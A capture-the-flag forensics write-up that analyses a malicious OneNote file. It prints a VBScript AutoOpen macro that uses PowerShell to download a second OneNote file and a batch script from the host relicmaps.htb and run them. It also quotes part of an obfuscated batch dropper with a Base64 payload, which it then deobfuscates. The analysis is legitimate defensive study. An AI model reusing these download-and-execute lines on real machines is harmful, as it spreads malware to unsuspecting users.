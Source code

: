 For this challenge, we are given a link to a OneNote document (`relicmaps.one`) hosted on the Docker environment. Running strings against this file, I find a suspicious piece of VBScript that downloads two files, another OneNote document and a `window.bat` batch script.

```vb
'more code above...
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
'more code below...
```

Downloading the batch script, I see that it is quite obfuscated and the commented middle portion starting with SEWD appears to be a Base64 encoded string.

```batch
@echo off
set "eFlP=set "
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"

snip

:: SEWD/RSJz4q93dq1c+u3tVcKPbLfn1fTrwl01pkHX3+NzcJ42N+ZgqbF+h+S76xsuroW3DDJ50IxTV/PbQICDVPjPCV3DYvCc244F7AFWphPY3kRy+618kpRSK2jW9RRcOnj8dOuDyeLwHfnBbkGgLE4KoSttWBplznkmb1l50KEFUavXv9ScKbGilo9+85NRKfafzpZjkMhwaCuzbuGZ1+5s9CdUwvo3znUpgmPX7S8K4+uS3SvQNh5iPNBdZHmyfZ9SbSATnsXlP757ockUsZTEdltSce4ZWF1779G6RjtKJcK4yrHGpRIZFYJ3pLosmm7d+SewKQu1vGJwcdLYuHOkdm5mglTyp20x7rDNCxobvCug4Smyrbs8XgS3R4jHMeUl7gdbyV/eTu0bQAMJnIql2pEU/dW0krE90nlgr3tbtitxw3p5nUP9hRYZLLMPOwJ12yNENS7Ics1ciqYh78ZWJiotAd4DEmAjr8zU4U...

snip

%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%
cls
%dzPrbmmccE%%xQseEVnPet%
%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%E
```

Running this script through DissectMalware's [batch_deobfuscator](https://github.com/DissectMalware/batch_deobfuscator), I got a somewhat readable version of the script.

![](/assets/img/ctf-writeups/ca2023/forensics/relic_maps/deobf.png)
